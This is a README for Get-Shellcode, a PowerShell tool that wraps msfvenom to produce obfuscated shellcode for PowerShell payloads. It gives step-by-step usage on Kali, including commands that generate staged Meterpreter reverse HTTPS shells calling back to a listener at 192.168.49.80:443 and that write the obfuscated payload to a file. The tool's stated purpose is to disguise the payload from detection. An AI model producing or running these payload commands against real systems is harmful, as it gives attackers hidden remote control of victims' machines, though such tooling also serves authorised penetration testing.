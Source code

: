 # Obfuscated Msfvenom Shellcode for Powershell

Get-Shellcode is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/invoke-psobfuscation) framework, with the sole purpose of producing obfuscated shellcode generated from msfvenom for PowerShell payloads. 

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The resulting payload is compatible on systems that support PowerShell newer than version 2.0. This script also relies on msfvenom being accessible on the system, which is available by default on Kali.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-Shellcode.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-Shellcode` function to generate our payload. We are able to generate a payload via two different methods, the default payload and a supplied payload.

__Default Payload__

The default payload that's generated by this script is a staged meterpreter reverse https shellcode, which only requires us to pass an ip and port. This default payload also sets EXITFUNC to thread. This default is merely out of personal preference and can be changed with ease.

`Get-Shellcode -Ip 192.168.49.80 -Port 443`

__Supplied Payload__

The second payload is the supplied payload, where we can pass our own parameters into msfvenom. Keep in mind that this solution is designed for PowerShell payloads so you must include `-f ps1`. Staged payloads are significantly smaller than a stageless payload so stageless payloads will take more time to be processed. If you also happen to pass a custom payload variable name, it will get obfuscated as well.

`Get-Shellcode -Msfvenom "-p windows/x64/meterpreter/reverse_https LHOST=192.168.49.80 LPORT=443 EXITFUNC=thread -f ps1"`

__Output to File__

`Get-Shellcode -Msfvenom "-p windows/x64/meterpreter/reverse_https LHOST=192.168.49.80 LPORT=443 EXITFUNC=thread -f ps1" -OutFile obfuscated.ps1`
